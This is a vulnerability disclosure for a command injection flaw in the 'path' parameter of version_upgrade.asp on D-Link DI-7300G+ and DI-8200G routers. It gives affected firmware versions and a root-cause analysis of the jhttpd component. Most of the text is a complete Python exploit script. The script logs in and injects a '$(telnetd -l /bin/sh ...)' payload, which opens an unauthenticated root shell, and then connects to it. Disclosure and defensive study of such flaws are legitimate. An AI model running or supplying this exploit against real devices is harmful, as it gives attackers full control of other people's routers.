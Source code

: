 **Vendor of the products:** D-Link

**Affected Device:** D-Link DI-7300G+、DI-8200G

**Version:** DI-7300G+ V19.12.25A1、DI_8200G-17.12.20A1

**Firmware Download:** http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-7300G%2B

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8200G

 

**Vulnerability Description:** A command injection vulnerability was discovered in D-Link DI-7300G+ V19.12.25A1 and DI_8200G-17.12.20A1, triggered by the path parameter in version_upgrade.asp. Attackers can exploit this vulnerability by crafting malicious packets to execute arbitrary commands, thereby gaining full control of the target device.

 

# POC:

**request:**

![image-20250711105153382](assets/image-20250711105153382.png)



# Vulnerability Effect:

It can be observed that the router receives the request and successfully executes the command. The attacker can execute arbitrary commands.

![image-20250711104645693](assets/image-20250711104645693.png)

 

# Vulnerability Cause:

The issue resides in the jhttpd component. In jhttpd, the program invokes the sub_433F7C function to handle requests related to version_upgrade.asp. The program first retrieves the user-input path parameter via httpd_get_parm. Subsequently, the program uses the sprintf function to concatenate the value of the path parameter into the variable v16, which is ultimately executed by the jhl_system function. Due to the lack of security checks on the input data, attackers can execute arbitrary commands and fully control the device by constructing malicious parameters.

![img](assets/wps11.jpg) 

 

# EXP:

```python
#!/usr/bin/env python3
import requests
import re
import os
import time
import argparse
from urllib.parse import quote
from getpass import getpass

requests.packages.urllib3.disable_warnings()

def parse_args():
    """Parse command-line arguments"""
    parser = argparse.ArgumentParser(description='D-link Exploit POC')
    parser.add_argument('-i', '--ip', default='192.168.0.1',
                       help='Target IP address (default: 192.168.0.1)')
    parser.add_argument('-u', '--username', default='admin',
                       help='Username (default: admin)')
    parser.add_argument('-p', '--password',
                       help='Password (will prompt if not provided)')
    parser.add_argument('-P', '--port', type=int, default=80,
                       help='HTTP port (default: 80)')
    parser.add_argument('-t', '--telnet-port', type=int, default=333,
                       help='Telnet port to open (default: 333)')
    return parser.parse_args()

def get_password(args):
    """Get password securely"""
    if args.password:
        return args.password
    return getpass(f"Enter password for {args.username} (default: admin): ") or "admin"

def build_url(ip, port, path):
    """Construct full URL"""
    return f"http://{ip}:{port}{path}"

def login(args):
    """Authenticate and get session cookies"""
    url = build_url(args.ip, args.port, "/login.cgi")
    headers = {
        "Host": f"{args.ip}:{args.port}",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Content-Type": "application/x-www-form-urlencoded",
        "Connection": "keep-alive",
    }

    data = {
        "user": args.username,
        "password": args.password
    }

    try:
        response = requests.post(url, headers=headers, data=data, verify=False)
        print(f"\n[+] Login Status: {response.status_code}")
        
        cookies = response.cookies.get_dict()
        if 'Set-Cookie' in response.headers:
            gw_cookie = re.search(r'gw_userid=([^;]+)', response.headers['Set-Cookie'])
            if gw_cookie:
                cookies['gw_userid'] = gw_cookie.group(1)
        return cookies
        
    except Exception as e:
        print(f"[-] Login failed: {str(e)}")
        return None

def execute_command(args, cookies):
    """Exploit command injection"""
    command = f"$(telnetd%20-l%20/bin/sh%20-p%20{args.telnet_port})"
    url = build_url(args.ip, args.port, f"/version_upgrade.asp?path={command}")
    

    headers = {
        "Host": f"{args.ip}:{args.port}",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate, br",
        "Connection": "keep-alive",
        "Cookie": f"userid={args.username}; gw_userid={cookies.get('gw_userid', '')}",
        "Upgrade-Insecure-Requests": "1",
        "Priority": "u=0, i"
    }

    try:
        print(f"\n[+] Sending exploit request: {url}")
        response = requests.get(url, headers=headers, verify=False, allow_redirects=False)
        
        print(f"[+] Exploit status: {response.status_code}")
        if response.headers.get('Set-Cookie'):
            print(f"[+] Response Set-Cookie: {response.headers.get('Set-Cookie')}")
        
        return True
    except Exception as e:
        print(f"[-] Exploit failed: {str(e)}")
        return False

def connect_telnet(ip, port):
    """Establish telnet connection"""
    print(f"\n[+] Attempting to connect via telnet to {ip}:{port}...")
    print("[+] If connection fails, try manually:")
    print(f"    telnet {ip} {port}")
    time.sleep(2)
    os.system(f"telnet {ip} {port}")

def main():
    args = parse_args()
    args.password = get_password(args)

    print(f"\n[+] Target: {args.ip}:{args.port}")
    print(f"[+] Credentials: {args.username}:{'*' * len(args.password)}")
    print(f"[+] Will open telnet on port: {args.telnet_port}")

    cookies = login(args)
    if not cookies:
        return

    if execute_command(args, cookies):
        connect_telnet(args.ip, args.telnet_port)

if __name__ == "__main__":
    main()
```



 

 

 